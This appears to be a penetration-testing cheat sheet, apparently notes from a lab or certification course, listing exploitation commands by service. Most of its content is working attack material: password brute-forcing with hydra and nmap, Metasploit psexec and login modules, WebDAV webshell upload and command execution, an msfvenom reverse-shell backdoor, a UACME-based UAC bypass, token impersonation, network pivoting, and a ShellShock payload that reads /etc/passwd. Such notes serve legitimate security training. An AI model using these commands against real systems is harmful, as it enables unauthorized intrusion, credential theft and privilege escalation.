 # Phase Two - Exploitation

### Wordlists \ Shells
- /usr/share/metasploit-framework/data/wordlists/
- /usr/share/wordlists/rockyou.txt
- /usr/share/webshells


## SMB

gzip -d rockyou.txt.gz\
tar -xvf \
``` msfconsole>smb_login``` (set PASSFILE,SMBUser, RHOST)\
``` hydra -l admin -P /usr/share/wordlists/rockyou.txt IP_ADDRESS smb```\
GetShell ``` msfconsole>psexec```

## FTP \ VSFTP
Check anon login\
```nmap IP_ADDRESS --script ftp-brute --script-args userdb=/root/users -p 21```
- (Linux) exploit/vsftp234 backdoor

## SSH
```nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student,ssh-run.password=" 192.201.39.3 ```(ssh run command)

```nmap IP_ADDRESS --script ssh-brute --script-args userdb=/root/usersfile -p 22```

``` msfconsole>ssh_login ``` (if targeting root use root_userpass.txt)
## MYSQL
- default sa user account.

``` msfconsole>mysql_login```
``` nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" 10.0.30.33``` 
- auth command  ``` mysql -u root -p -h 10.0.25.212```

## WebDav
``` cadaver hxxp://IP_ADDRESS/webdav``` and ``` #put WEBSHELL_FILE```

RCE, check current user. ``` http://10.0.16.177/webdav/webshell.asp?cmd=whoami``` or ``` type "C:\flag.txt```

## RDP - port 3389
``` hydra -s PORT```

``` xfreerdp /u: /p: /v:``` (user, pass, ip_port)

## WinRM
``` msfconsole>winrm_login, winrm_cmd, winrm_script_exec (auto-reverse-shell, force_vbs TRUE)```

## ByPass UAC
being admin but being limited by filtered token.
- hashdump
- migrate 
- net localgroup administrators
- getuid
- sysinfo

generate payload ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST LPORT -f exe > 'backdoor.exe' ```

copy UACME\Akagi64.exe to target.
Create Handler. Akagi64 use hijack method 23.
``` Akagi64.exe 23 backdoor.exe```

mirgate process. hashdump

## Token impersonation admin
When you need to access a resource as admin.
- getprivs

``` >load incognito, >list_tokens -u, >impersonate_token ATTACKDEFENSE\\Administrator```


## HTTP - HFS rejetto 
searchsploit hfs\
``` msfconsole>search hfs```


## Pivoting 
``` ip addr``` make notes on addresses on eth0 and eth1.
- Add route to metasploit routing table in meterpreter session.
``` >run autoroute -s ADDRESS_ETH1```
- Can run metasploit port scan against new network address.
- To perform local attack box tasks, we need to port forward.
- ``` >portfwd add -l 1234 -p 90 -r REMOTE_SYSTEM_IP```
- Local tool scanning ``` #nmap -sV -p 1234 localhost```

## MYSQL
- ``` mysql_login, mysql_hashdump, mysql_schema_dump```

## SAMBA
- exploit/is_known_pipe

## SMB - Psexec
- With SMB creds, we can use PSEXEC to auth to system with meterpreter session.
PSEXEC is a lightweight telnet replacement. PsExec authentication is performed via SMB. We can use the psecec utility to run remote commands and remote command prompt.
- ``` cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop```
- ``` python3 psexec.py Administrator@10.0.31.252```


## ShellShock - CGI
- Website in source is using dynmaic content through CGI script. Check if vuln with ShellShock.  ``` nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3```
- Use FoxyProxy and Burp to intercept, modify and send payload in User-Agent string.
``` Payload: ​() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'```

